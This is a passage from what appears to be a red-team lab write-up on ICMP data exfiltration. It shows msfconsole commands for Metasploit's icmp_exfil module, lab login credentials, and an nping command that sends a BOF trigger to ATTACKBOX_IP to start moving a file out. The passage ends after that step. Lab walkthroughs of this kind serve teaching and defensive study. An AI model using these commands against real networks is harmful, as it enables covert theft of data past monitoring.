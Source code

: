* The Metasploit framework uses the same technique explained in the previous section.

*  However, it will capture incoming ICMP packets and wait for a Beginning of File (BOF) trigger value.

* Once it is received, it writes to the disk until it gets an End of File (EOF) trigger value.

The following diagram shows the required steps for the Metasploit framework. Since we need the Metasploit Framework for this technique, then we need the AttackBox machine to perform this attack successfully.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/22.png)

Now from the AttackBox, let's set up the Metasploit framework

One of the requirements for this module is to set the `BPF_FILTER` option, which is based on `TCPDUMP` rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows,

`msf5 > use auxiliary/server/icmp_exfil`
`msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP`
`msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0`
`msf5 auxiliary(server/icmp_exfil) > run`

We prepared `icmp.thm.com` as a `victim machine` to complete the ICMP task with the required tools. From the `JumpBox`, log in to the `icmp.thm.com` using `thm:tryhackme` credentials.

We have preinstalled the `nping` tool, an open-source tool for network packet generation, response analysis, and response time measurement. The NPING tool is part of the `NMAP suite` tools.

First, we will send the BOF trigger from the ICMP machine so that the Metasploit framework starts writing to the disk. 

`thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"`

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/23.PNG)
